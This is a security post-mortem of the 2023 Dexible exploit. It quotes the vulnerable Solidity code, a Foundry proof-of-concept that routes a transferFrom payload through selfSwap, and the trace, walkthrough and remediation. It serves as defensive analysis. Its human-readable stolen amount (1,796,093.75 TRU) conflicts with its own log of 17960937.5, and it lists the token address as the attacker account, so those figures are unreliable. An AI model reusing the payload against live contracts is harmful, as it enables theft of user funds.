


# Dexible Exploit — Caller-Controlled `router`/`routerData` in `selfSwap`/`fill`

> **Vulnerability classes:** vuln/dependency/unsafe-external-call · vuln/access-control/missing-auth

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source (proxy + active implementation):
> [DexibleProxy](sources/DexibleProxy_DE62E1/contracts_dexible_DexibleProxy.sol),
> [Dexible (impl)](sources/Dexible_33e690/contracts_dexible_Dexible.sol),
> [SwapHandler.fill](sources/Dexible_33e690/contracts_dexible_baseContracts_SwapHandler.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$1.5M — at least **1,796,093.75 TRU** drained from a single victim in the reproduced PoC ([output.txt:104](output.txt)); the on-chain attack swept approvals across **8 victims** (≈ 1.5M USDC-equiv of TRU at the time) — tx [`0x138daa4c…`](https://etherscan.io/tx/0x138daa4cbeaa3db42eefcec26e234fc2c89a4aa17d6b1870fc460b2856fd11a6) |
| **Vulnerable contract** | `Dexible` proxy — [`0xDE62E1b0edAa55aAc5ffBE21984D321706418024`](https://etherscan.org/address/0xDE62E1b0edAa55aAc5ffBE21984D321706418024); active logic impl [`0x33e690aEa97E4Ef25F0d140F1bf044d663091DAf`](https://etherscan.org/address/0x33e690aEa97E4Ef25F0d140F1bf044d663091DAf) |
| **Victim** | TRU holders who had granted `approve(Dexible, …)` — e.g. `0x58f5F0684C381fCFC203D77B2BbA468eBb29B098` (the single victim reproduced; on-chain: 8 such holders) |
| **Attacker EOA** | `0x4C19596f5aAfF459fA38B0f7eD92F11AE6543784` (PoC sets `router = TRU`, which is the same address as the TRU token; the real attacker EOA is recorded by PeckShield) |
| **Attacker contract** | `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (PoC `ContractTest`) |
| **Attack tx** | [`0x138daa4cbeaa3db42eefcec26e234fc2c89a4aa17d6b1870fc460b2856fd11a6`](https://etherscan.io/tx/0x138daa4cbeaa3db42eefcec26e234fc2c89a4aa17d6b1870fc460b2856fd11a6) |
| **Chain / block / date** | Ethereum mainnet / **block 16,646,022** / Feb 17, 2023 |
| **Compiler / optimizer** | Solidity **v0.8.17** (`v0.8.17+commit.8df45f5f`), optimizer **enabled (1)**, **100 runs** ([_meta.json](sources/Dexible_33e690/_meta.json)) |
| **Bug class** | Trust boundary — `selfSwap`/`fill` accept a fully caller-controlled `RouterRequest{router, spender, routeAmount, routerData}` and execute it as Dexible; no allowlist, no shape check on `routerData`. |

---

## TL;DR

`Dexible` is a meta-aggregator/relayer: a trader signs an order, a relayer submits it, and Dexible's
`swap()`/`selfSwap()` walks an array of `RouterRequest` hops calling each `router` with the supplied
`routerData`. The intended routers are DEXes (Uniswap, Sushi, etc.), and Dexible holds the trader's
ERC-20 `approve(Dexible, …)` so it can move input tokens into the routers.

1. The fatal flaw is in `SwapHandler.fill`
   ([SwapHandler.sol:43-51](sources/Dexible_33e690/contracts_dexible_baseContracts_SwapHandler.sol#L43-L51)):

   ```solidity
   for(uint i=0;i<request.routes.length;++i) {
       SwapTypes.RouterRequest calldata rr = request.routes[i];
       IERC20(rr.routeAmount.token).safeApprove(rr.spender, rr.routeAmount.amount);
       (bool s, ) = rr.router.call(rr.routerData);   // ← arbitrary target, arbitrary calldata
   ```

   Both `rr.router` and `rr.routerData` come from the caller with **zero validation**. The NatSpec on
   `RouterRequest` ([SwapTypes.sol:13-14](sources/Dexible_33e690/contracts_common_SwapTypes.sol#L13-L14))
   *claims* "Only approved router addresses will execute successfully" — but no `onlyApprovedRouter`
   modifier ever exists in the code. The comment is aspirational; the code does not enforce it.

2. `selfSwap` is `external notPaused` with **no relayer/allowlist gate**
   ([Dexible.sol:61-94](sources/Dexible_33e690/contracts_dexible_Dexible.sol#L61-L94)): anyone can call
   it directly, unlike `swap()` which is `onlyRelay`.

3. The exploit payload: the attacker submits a `selfSwap` whose single route points `router` at the
   **TRU token itself** (`0x4C19596f…`) and `routerData` at `transferFrom(victim, attacker, amount)`.
   Because `fill` executes `router.call(routerData)` *as Dexible*, the `transferFrom`'s `msg.sender` is
   Dexible — which holds an unlimited/large allowance from every user who ever approved Dexible to trade
   for them. The token dutifully moves the victim's TRU **to the attacker**.

4. Reproduced profit in the PoC: **1,796,093.75 TRU** (1,796,093,750,000,000 raw wei, 8 decimals) drained
   from victim `0x58f5F068…B098` into the attacker contract
   ([output.txt:104](output.txt), [output.txt:181](output.txt)). On-chain, the same primitive was
   looped across 8 approval-granting holders, totalling ~$1.5M of TRU.

The fix is mechanical: `router` must be on a protocol allowlist, `routerData` must be checked against
the expected swap-function selector, and `selfSwap` must not let an arbitrary caller drive arbitrary
low-level calls while impersonating Dexible's accumulated allowances.

---

## Background — what Dexible does

Dexible is an off-chain-relayed DEX aggregator. The intended flow is:

- A trader signs an order off-chain specifying the input/output tokens, an array of router hops
  (e.g. "route USDC through UniswapV2 then SushiSwap"), the fee token, and the affiliate.
- A permissioned **relayer** submits it on-chain via `Dexible.swap()` (`onlyRelay notPaused`).
- Dexible, which the trader has `approve`d for the input token, pulls the input, then for each hop
  `safeApprove`s the next router and calls it.

There is also a "self swap" path, `Dexible.selfSwap()` ([Dexible.sol:61](sources/Dexible_33e690/contracts_dexible_Dexible.sol#L61)),
for users who want to submit directly. **Critically, `selfSwap` carries only `notPaused`** — there is no
`onlyRelay`. The trader becomes the caller, but the contract still walks the same attacker-shapable
`RouterRequest[]` array through `fill`.

On-chain parameters at the fork block (16,646,022), read directly from the trace:

| Parameter | Value | Source |
|---|---|---|
| `DexibleProxy` (proxy) | `0xDE62E1b0edAa55aAc5ffBE21984D321706418024` | [output.txt:18](output.txt) |
| `Dexible` (impl, delegatecall target) | `0x33e690aEa97E4Ef25F0d140F1bf044d663091DAf` | [output.txt:81](output.txt) |
| TRU token | `0x4C19596f5aAfF459fA38B0f7eD92F11AE6543784` (8 decimals) | [output.txt:16](output.txt) |
| USDC token | `0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48` (6 decimals) | [output.txt:14](output.txt) |
| Victim | `0x58f5F0684C381fCFC203D77B2BbA468eBb29B098` | PoC header |
| Victim TRU balance | `4,061,693,776,672,209` raw (≈ **40,616,937.76 TRU**) | [output.txt:70-71](output.txt) |
| Victim → Dexible allowance (TRU) | `1,796,093,750,000,000` raw (≈ **1,796,093.75 TRU**) | [output.txt:74](output.txt) |
| CommunityVault (gas/fees) | `0xEB890541049CCd965D3DD4a3Ec1aD368FD4B26A4` | [output.txt:120](output.txt) |

The two numbers that make the attack work are the last two: the victim had granted Dexible an allowance
of ~1.8M TRU, so *any* code that runs `TRU.transferFrom(victim, X, ≤allowance)` from inside Dexible will
succeed — and Dexible itself is the entity that runs the attacker's calldata.

---

## The vulnerable code

### 1. `RouterRequest` — every field is caller-supplied and unvalidated

```solidity
/**
 * Individual router called to execute some action. Only approved
 * router addresses will execute successfully
 */
struct RouterRequest {
    //router contract that handles the specific route data
    address router;

    //any spend allowance approval required
    address spender;

    //the amount to send to the router
    TokenTypes.TokenAmount routeAmount;

    //the data to use for calling the router
    bytes routerData;
}
```
([SwapTypes.sol:12-28](sources/Dexible_33e690/contracts_common_SwapTypes.sol#L12-L28))

The NatSpec promise — *"Only approved router addresses will execute successfully"* — is a lie. There is
no allowlist anywhere in the codebase; `router`, `spender`, `routeAmount`, and `routerData` are all
freely chosen by whoever builds the `SwapRequest`/`SelfSwap`.

### 2. `SwapHandler.fill` — the low-level call that turns the bug into theft

```solidity
function fill(SwapTypes.SwapRequest calldata request, SwapMeta memory meta)
    external onlySelf returns (SwapMeta memory) {

    preCheck(request, meta);
    meta.outAmount = request.tokenOut.token.balanceOf(address(this));

    for(uint i=0;i<request.routes.length;++i) {
        SwapTypes.RouterRequest calldata rr = request.routes[i];
        IERC20(rr.routeAmount.token).safeApprove(rr.spender, rr.routeAmount.amount);
        (bool s, ) = rr.router.call(rr.routerData);                 // ⚠️ arbitrary call AS Dexible
        if(!s) { revert("Failed to swap"); }
    }
    ...
}
```
([SwapHandler.sol:38-51](sources/Dexible_33e690/contracts_dexible_baseContracts_SwapHandler.sol#L38-L51))

`onlySelf` only enforces that the caller is the Dexible contract itself (so it can be reached via the
public `swap`/`selfSwap` entry points). The damage is on line 46: `rr.router.call(rr.routerData)` runs
the attacker's calldata against the attacker's chosen address, but **with Dexible's identity and
Dexible's accumulated allowances**. There is no check that `router` is a known DEX, no check on the
selector encoded in `routerData`, no check that the call returns value to Dexible.

### 3. `selfSwap` — the public, ungated entry point

```solidity
function selfSwap(SwapTypes.SelfSwap calldata request) external notPaused {
    // ...builds a SwapRequest with requester = msg.sender, no affiliate...
    details = this.fill(swapReq, details);     // ← routes through the vulnerable fill
    postFill(swapReq, details, true);
}
```
([Dexible.sol:61-94](sources/Dexible_33e690/contracts_dexible_Dexible.sol#L61-L94))

Unlike `swap()` (`onlyRelay notPaused`), `selfSwap()` is `notPaused` only — anyone may call it. Combined
with #2, that means anyone can ask Dexible to execute `arbitrary_address.call(arbitrary_calldata)` as
Dexible. In the real attack the attacker also used the relayer-gated `swap()` with a forged/malicious
order ([PeckShield](https://twitter.com/peckshield/status/1626493024879673344)); the PoC reproduces the
simpler `selfSwap` path.

### 4. The attacker's calldata — `transferFrom` stealing victim TRU

The PoC builds the payload directly:

```solidity
uint256 transferAmount = TRU.balanceOf(victim);
if (TRU.allowance(victim, address(Dexible)) < transferAmount) {
    transferAmount = TRU.allowance(victim, address(Dexible));   // clamp to allowance
}
bytes memory callDatas = abi.encodeWithSignature(
    "transferFrom(address,address,uint256)", victim, address(this), transferAmount);
...
route[0] = SwapTypes.RouterRequest({
    router: address(TRU),           // ← the token contract itself
    spender: address(Dexible),      // ← who to approve (irrelevant: amount=0)
    routeAmount: routeAmounts,      // ← amount=0 so safeApprove(Dexible, 0) is a no-op
    routerData: callDatas           // ← TRU.transferFrom(victim, attacker, amt)
});
SwapTypes.SelfSwap memory requests = SwapTypes.SelfSwap({
    feeToken: address(USDC), tokenIn: tokenIns, tokenOut: tokenOuts, routes: route
});
Dexible.selfSwap(requests);
```
([Dexible_exp.sol:60-78](test/Dexible_exp.sol#L60-L78))

`fill` then does `TRU.call(transferFrom(victim, attacker, 1.796e15))` *as Dexible*. The TRU token sees
`msg.sender == Dexible`, looks up `allowance[victim][Dexible]` (1.796e15, see
[output.txt:74](output.txt)), and transfers the tokens — emitting the fatal event:

```
emit Transfer(from: 0x58f5…B098, to: ContractTest, value: 1,796,093,750,000,000)
```
([output.txt:104](output.txt))

---

## Root cause — why it was possible

Dexible is a **custodial intermediary**: it holds ERC-20 allowances from every user who has ever
prepared a swap. With that position comes a hard obligation — *never execute a low-level call whose
target or calldata is attacker-influenced*, because such a call inherits Dexible's identity and its
accumulated allowance surface.

`SwapHandler.fill` violates that obligation on both axes:

1. **Unvalidated `router`.** Dexible intended to call a small, fixed set of DEX routers. The NatSpec
   even says so. But the implementation never cross-references an allowlist, so `router` can be *any*
   address — including an ERC-20 token whose `transferFrom` will dutifully spend Dexible's allowance.

2. **Unvalidated `routerData`.** Even if `router` had been a real DEX, nothing checks that `routerData`
   encodes a `swap`/`exactInputSingle`/etc. selector. The attacker stuffed it with `transferFrom`.

3. **`selfSwap` has no caller gate.** `swap()` requires the relayer (`onlyRelay`), which is at least a
   soft trust boundary. `selfSwap()` is `notPaused` only, so the attacker does not need to compromise
   or frontrun a relayer — they just call it.

4. **No post-call invariant.** `fill` measures `tokenOut.balanceOf(this)` before/after the loop and
   only requires `out >= tokenOut.amount`. The PoC sets `tokenOut.amount = 0` and `tokenOut = USDC`,
   so the check is `USDC balance >= 0` — trivially satisfied, and the stolen TRU is never on Dexible's
   balance sheet at all.

The combination is textbook **confused-deputy**: Dexible is the deputy holding the user's allowance;
the attacker hands it a forged "router instruction" that is really a `transferFrom` on the user's
balance, and the deputy executes it because it never inspects the instruction.

---

## Preconditions

- A victim has a live `approve(Dexible, …)` on some ERC-20 (TRU in this case). Reproduced victim allowance:
  **1,796,093,750,000,000** TRU-wei ([output.txt:74](output.txt)).
- The contract is not paused (`selfSwap` only checks `notPaused`).
- The attacker can fund a small amount of the **fee token** (USDC) — the PoC `deal`s **15 USDC**
  ([Dexible_exp.sol:58](test/Dexible_exp.sol#L58)) so that `preCheck`'s `isFeeTokenAllowed(USDC)`
  passes and the subsequent `computeDiscountedFee`/`transferFrom` of fees
  ([output.txt:142-161](output.txt)) has something to debit. ~5,762 + 5,761 USDC-wei of fees are taken
  ([output.txt:146](output.txt), [output.txt:155](output.txt)).
- The attacker's `tokenIn.amount` (14,403,789 USDC-wei in the PoC,
  [output.txt:80](output.txt)) only has to satisfy `totalInputSpent ≤ tokenIn.amount` inside
  `payProtocolAndTrader`; because `routeAmount.amount == 0`, no input is actually routed, and the
  remaining bps/min fee (~11,523 USDC-wei) fits well under 14.4M USDC-wei of headroom.

No flash-loan, no oracle manipulation, no price impact — the attack is a single transaction that costs
only gas plus a few cents of fee token.

---

## Attack walkthrough (with on-chain numbers from the trace)

The trace in [output.txt](output.txt) is a single `testExploit()` call; line refs are to that file.
Amounts are raw integer wei; human approximations (TRU = 8 decimals, USDC = 6 decimals) in parentheses.

| # | Step | State after | Effect |
|---|------|-------------|--------|
| 0 | **Setup** — attacker mints itself 15 USDC via `deal` and `approve(Dexible, type(uint256).max)` ([output.txt:55-67](output.txt)) | Attacker USDC = 15.000000 ([output.txt:59-60](output.txt)); Dexible allowance from attacker = max | Gives `preCheck`/fee logic something to debit. |
| 1 | **Read victim surface** — `TRU.balanceOf(victim)` = `4,061,693,776,672,209` (≈40.6M TRU) ([output.txt:70-71](output.txt)); `TRU.allowance(victim, Dexible)` = `1,796,093,750,000,000` (≈1.796M TRU) ([output.txt:74](output.txt)) | `transferAmount` clamped to the allowance = **1,796,093,750,000,000** | Determines the size of the theft. |
| 2 | **`Dexible.selfSwap(...)`** — proxy delegatecalls impl `0x33e690…` ([output.txt:80-81](output.txt)); `selfSwap` builds the `SwapRequest` and calls `this.fill(...)` ([output.txt:82-83](output.txt)) | Inside `fill`, `preCheck` runs | Enters the vulnerable loop with attacker's `RouterRequest`. |
| 3 | **`preCheck`** — verifies `isFeeTokenAllowed(USDC)=true` ([output.txt:84-85](output.txt)), then `safeTransferFrom(attacker, Dexible, 14,403,789 USDC-wei)` of input. Because `routeAmount.amount == 0`, the inner `safeApprove(Dexible, 0)` ([output.txt:97-101](output.txt)) is a no-op. | Dexible holds 14.4M USDC-wei of attacker's input; victim allowance untouched | Sets up the cover — the call looks like a legitimate self-swap. |
| 4 | **The theft** — `rr.router.call(rr.routerData)` executes **`TRU.transferFrom(victim, attacker, 1,796,093,750,000,000)`** *as Dexible*. TRU emits `Transfer(victim → attacker, 1,796,093,750,000,000)` ([output.txt:104](output.txt)) and decrements victim's allowance to 0 ([output.txt:105-109](output.txt)). | **Victim loses 1,796,093.75 TRU**; attacker gains it | The confused-deputy moment. |
| 5 | **Post-loop accounting** — `tokenOut(USDC).balanceOf(Dexible)` is unchanged, `outAmount = 0`, and `require(0 >= 0)` passes ([output.txt:112-118](output.txt)). `rewardTrader` mints the attacker some DXBL reward tokens ([output.txt:120-141](output.txt)) based on the *input* size, and the bps/min fees (~5,762 + 5,761 USDC-wei) are split to treasury/vault ([output.txt:142-161](output.txt)). | Attacker's attacker-contract TRU balance = **1,796,093,750,000,000** wei ([output.txt:175-176](output.txt)) | Attack complete; Dexible even pays the attacker a trading reward on top. |
| 6 | **Assertion** — `log_named_decimal_uint("Attacker TRU balance after exploit", 1,796,093,750,000,000, 8)` prints `17960937.50000000` ([output.txt:181](output.txt)). | `[PASS] testExploit()` ([output.txt:5](output.txt)) | Reproduction confirmed. |

### Profit / loss accounting (TRU, raw wei, 8 decimals)

| Direction | Amount (raw wei) | ~Human |
|---|---:|---:|
| Victim TRU before ([output.txt:70](output.txt)) | 4,061,693,776,672,209 | 40,616,937.77 |
| Victim TRU allowance used ([output.txt:74](output.txt), [output.txt:104](output.txt)) | **1,796,093,750,000,000** | **1,796,093.75** |
| Attacker-contract TRU after ([output.txt:175](output.txt)) | **1,796,093,750,000,000** | **1,796,093.75** |
| **Net profit (PoC, single victim)** | **1,796,093,750,000,000** | **1,796,093.75 TRU** |
| Attacker USDC spent on fees ([output.txt:146](output.txt) + [output.txt:155](output.txt)) | 11,523 | 0.011523 USDC |

The accounting reconciles to the wei: every unit of the victim's allowance was transferred to the
attacker. The only attacker-side cost is ~0.0115 USDC of bps/min fees. On-chain, the attacker repeated
the primitive for 8 different approval-granting holders (per PeckShield), reaching the reported ~$1.5M
total — the per-victim amount shown here is the reproduced slice.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker (ContractTest)
    participant D as DexibleProxy<br/>0xDE62E1…
    participant I as Dexible impl<br/>0x33e690… (delegatecall)
    participant T as TRU token<br/>0x4C19596f…
    participant V as Victim<br/>0x58f5F068…B098

    Note over V,T: Victim once approved Dexible:<br/>allowance[V][Dexible] = 1.796e15 TRU

    rect rgb(255,243,224)
    Note over A,I: Step 0 — cover: look like a normal self-swap
    A->>D: selfSwap(SelfSwap{feeToken=USDC, tokenIn=14.4M USDC, routes=[R]})
    D->>I: delegatecall selfSwap
    I->>I: preCheck: pull 14.4M USDC-wei input from attacker
    end

    rect rgb(255,235,238)
    Note over A,T: Step 1 — the exploit: router=TRU, routerData=transferFrom(V,A,amt)
    I->>I: safeApprove(rr.spender=Dexible, 0)   // no-op, amount=0
    I->>T: TRU.call(transferFrom(V, A, 1.796e15))   // msg.sender = Dexible
    T->>T: allowance[V][Dexible] >= 1.796e15 ?  yes
    T-->>A: Transfer(V → A, 1.796e15)  ⚠️ victim drained
    T->>T: allowance[V][Dexible] = 0
    end

    rect rgb(232,245,233)
    Note over A,I: Step 2 — post-swap window dressing
    I->>I: outAmount(USDC) = 0; require(0 >= 0) ✓
    I->>I: rewardTrader mints DXBL to attacker
    I->>A: fees (~0.0115 USDC) debited from attacker's input
    end

    Note over A: Attacker TRU balance: 1,796,093.75
```

### The flaw inside `SwapHandler.fill`



### Trust-boundary / confused-deputy view



---

## Why each magic number

- **`15 * 1e6` USDC minted to the attacker ([Dexible_exp.sol:58](test/Dexible_exp.sol#L58)):** `preCheck`
  calls `safeTransferFrom(attacker, Dexible, tokenIn.amount)`, so the attacker needs *some* USDC to
  satisfy the input pull and the bps/min fees. 15 USDC is comfortable headroom over the actual
  ~0.0115 USDC of fees observed ([output.txt:146](output.txt), [output.txt:155](output.txt)); the rest
  is returned via `request.tokenOut.token.safeTransfer(requester, outToTrader)` (outToTrader ≈ 0).
- **`tokenIn.amount = 14_403_789` (USDC-wei, [Dexible_exp.sol:67](test/Dexible_exp.sol#L67)):** sets the
  ceiling that `totalInputSpent ≤ tokenIn.amount` is checked against in `payProtocolAndTrader`. Because
  `routeAmount.amount = 0`, `totalInputSpent` reduces to just the bps/gas fees (≈11,523 wei), well
  within 14.4M.
- **`routeAmount.amount = 0` and `spender = Dexible`:** forces the `safeApprove(rr.spender, 0)` line to
  be a harmless no-op (`approve(Dexible, 0)` from Dexible to itself). The attacker does not need a real
  approval; the damage is done by the `router.call(routerData)`, not by the `safeApprove`.
- **`router = TRU` (`0x4C19596f…`):** the address that will receive the low-level `call`. Pointing it
  at the token contract makes `routerData = transferFrom(...)` execute *on the token*, with
  `msg.sender == Dexible`.
- **`transferAmount = min(balanceOf(victim), allowance(victim, Dexible))`
  ([Dexible_exp.sol:60-63](test/Dexible_exp.sol#L60-L63)):** drains the maximum the victim's allowance
  permits. For the reproduced victim this clamps from 40.6M TRU down to the 1.796M TRU allowance.
- **`tokenOut = (0, USDC)`:** makes the post-loop `require(meta.outAmount >= request.tokenOut.amount)`
  check trivially `0 >= 0`, so the call returns success and even collects a DXBL reward.

---

## Remediation

1. **Allowlist `router`.** Maintain a `mapping(address => bool) approvedRouters` and `require(approvedRouters[rr.router])`
   at the top of the loop in `fill`. Only known DEX routers (UniswapV2 router, SushiSwap router,
   UniswapV3 pool, etc.) should ever be callable. This single check would have blocked the attack
   because the TRU token is not a router.
2. **Validate the `routerData` selector.** Even with an allowlist, decode the first 4 bytes of
   `routerData` and restrict each router to its legitimate swap selectors (`swapExactTokensForTokens`,
   `exactInputSingle`, `multicall`, …). Reject `transferFrom` / `approve` / `transfer` outright.
3. **Gate `selfSwap`.** Apply `onlyRelay` or an on-chain signature check to `selfSwap` as well, so a
   random caller cannot drive arbitrary router calls. At minimum, require that the trader has signed
   the exact `RouterRequest[]` (EIP-712 over the routes), not just the high-level intent.
4. **Never call arbitrary calldata as Dexible.** Replace `rr.router.call(rr.routerData)` with typed
   adapter calls (`IUniswapV2Router(rr.router).swapExactTokensForTokens(...)`, etc.) so the compiler
   and the type system enforce the shape. Low-level `.call` should be reserved for trusted, audited
   targets.
5. **Post-call invariant.** After each hop, assert that the only balance that decreased is the input
   token and the only balance that increased is the output token; revert on any unexpected delta.
   `transferFrom`-as-Dexible would trip this immediately because it moves a third-party token
   (victim's TRU) without affecting `tokenIn`/`tokenOut`.
6. **Per-user, per-order allowances.** Instead of holding standing `type(uint256).max` approvals from
   users, require permits bound to a specific order (EIP-2612 / EIP-3009) so that even a confused-deputy
   call cannot spend more than the current order's input.

---

## How to reproduce

The PoC runs offline via the shared harness. The fork is served from the local
`anvil_state.json`; `createSelectFork` points at `http://127.0.0.1:8545` pinned to block **16,646,022**
([Dexible_exp.sol:50-51](test/Dexible_exp.sol#L50-L51)).

```bash
_shared/run_poc.sh 2023-02-Dexible_exp --mt testExploit -vvvvv
```

- EVM: `foundry.toml` sets `evm_version = "cancun"`; the test does not require any Prague-only opcodes.
- No public RPC is needed — the anvil state snapshot already contains the victim's approval and balance.

Expected tail (verbatim from [output.txt:5-8](output.txt) and
[output.txt:181-189](output.txt)):

```
[PASS] testExploit() (gas: 511311)
Logs:
  Expected 0 Received 0
  Attacker TRU balance after exploit: 17960937.50000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.69s (12.08s CPU time)
```

The `Expected 0 Received 0` line is the `console.log("Expected", request.tokenOut.amount, "Received", meta.outAmount)`
inside `fill` ([SwapHandler.sol:59](sources/Dexible_33e690/contracts_dexible_baseContracts_SwapHandler.sol#L59)) —
both are zero because the attacker set `tokenOut.amount = 0` to bypass the output check; it is the
audit-trail fingerprint of the bypass.

---

*Reference: PeckShield — https://twitter.com/peckshield/status/1626493024879673344 ; MevRefund — https://twitter.com/MevRefund/status/1626450002254958592 (Dexible, Ethereum mainnet, ~$1.5M, Feb 17 2023).*
